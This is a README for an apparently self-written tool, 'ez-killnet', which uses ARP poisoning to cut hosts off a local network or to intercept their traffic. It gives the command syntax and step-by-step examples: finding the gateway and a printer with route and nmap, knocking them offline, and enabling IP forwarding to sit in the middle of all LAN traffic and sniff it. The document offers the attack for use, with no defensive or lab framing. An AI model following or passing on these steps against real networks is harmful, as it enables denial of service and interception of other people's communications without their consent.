 # ez-killnet
kill whole network (2.4GHz + 5GHz + eth + anything) using arp poisoning 

cd to directory and run the following 
sudo ./ez-killnet.py -i [interface to use for attack] -t [ipaddr to make unreachable on lan] 

example: (kill internet gateway) 
1. connect wlan0 to network 
2. route -n to find gateway (found it to be 192.168.10.1)
3. sudo ./ez-killnet.py -i wlan0 -t 192.168.10.1 -x kill 
4. now all hosts on network cannot reach this gateway and they all have trouble connecting to the internet 

example: (kill valuable resources) 
1. connect eth0 to network 
2. nmap -sn 192.168.10.* to learn about hosts (found printer to be 192.168.10.226)
3. sudo ./ez-killnet.py -i eth0 -t 192.168.10.226 -x kill 
4. now all hosts on network cannot reach this resource

example: (MITM internet gateway) 
1. connect wlan0 to network 
2. route -n to find gateway (found it to be 192.168.10.1)
3. echo "1" > /proc/sys/net/ipv4/ip_forward
4. sudo ./ez-killnet.py -i wlan0 -t 192.168.10.1 -x mitm 
5. now you are listening to all streams btwn router and hosts on the network 


This program works by telling people that this ip you entered is located at your own mac address which is different from the real one. Hosts on the network try to reach this ip by viisting your own computer, but by default your kernel doesnt forward ipv4 traffic so the packets never get sent to where theyre actually suppossed to go. 

If you wish start an MITM attack please echo "1" > /proc/sys/net/ipv4/ip_forward. This way your computer will be forwarding the requests to where they should go situating itself in the middle of all traffic on the network. Fire up your sniffer (ettercap, wireshark, etc.) and you will be able to see all the traffic flowing through your computer from all over the network. 

